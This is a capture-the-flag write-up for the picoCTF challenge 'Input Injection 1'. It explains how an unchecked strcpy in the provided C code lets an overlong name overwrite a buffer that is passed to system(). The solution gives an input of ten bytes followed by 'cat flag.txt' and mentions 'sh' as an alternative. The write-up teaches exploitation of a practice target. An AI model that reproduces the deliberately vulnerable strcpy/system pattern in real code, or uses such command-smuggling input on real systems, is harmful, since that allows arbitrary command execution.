

# Input Injection 1
Challenge Description:
> A friendly program wants to greet you… but its goodbye might say more than it should. Can you convince it to reveal the flag?

CTF: <b>picoCTF</b> (picoGym)<br>Difficulty: <b>Medium</b>

<b>[Jump to solution](#solution)</b>

## Hints
Here are the hints provided by the challenge author.
<details>
<summary>Hint 1</summary>

> Look closely at how the program stores and uses your input.
</details>

## Procedure
The program asks for your name, then seems to repeat your name back to you with a Goodbye message along with some weird additional output.
```
What is your name?
hammy
Goodbye, hammy!
Linux
```

Moreover, if your name is too long it seems to not produce the additional output.
```
What is your name?
hammmmmmmmmmmmmmy
Goodbye, hammmmmmmmmmmmmmy!
```
<sub>(ok if you ran this locally with a large name it becomes real obvious what you have to do, but here I ran it on the remote machine)</sub>

Let's take a look at the source which we are conveniently provided with!!
```c
int main() {
    char name[200];
    printf("What is your name?\n");
    fflush(stdout);


    fgets(name, sizeof(name), stdin);
    name[strcspn(name, "\n")] = 0;

    fun(name, "uname");
    return 0;
}

void fun(char *name, char *cmd) {
    char c[10];
    char buffer[10];

    strcpy(c, cmd);
    strcpy(buffer, name);

    printf("Goodbye, %s!\n", buffer);
    fflush(stdout);
    system(c);
}
```

It looks like it takes a name at most 200 chars long as input, then passes it into `fun` along with a command string `uname`, and both are copied into buffers `c` and `buffer` using `strcpy`.

We can notice that name can be at most 200 bytes long, but its buffer `buffer` only holds up to 10 bytes. Any bytes past 10 will begin to overflow into buffer `c`, overwriting what it previously contained.

At the end of `fun`, the program runs `system(c)` - in other words, it executes the command line command denoted by the contents of `c`.

Therefore, any bytes past 10 characters of our input name will be used to overwrite `c`, meaning we can write whatever command we want to be executed past the first 10 characters of our name!

> 

## Solution
1. Input any name exactly 10 bytes long followed by `cat flag.txt` (or whatever other system command you desire, like `sh`), e.g. `hammmmmmmycat flag.txt`

## Key Takeaways
Anywhere `system()` is used with tainted/user-controllable input can be a target in a CTF challenge.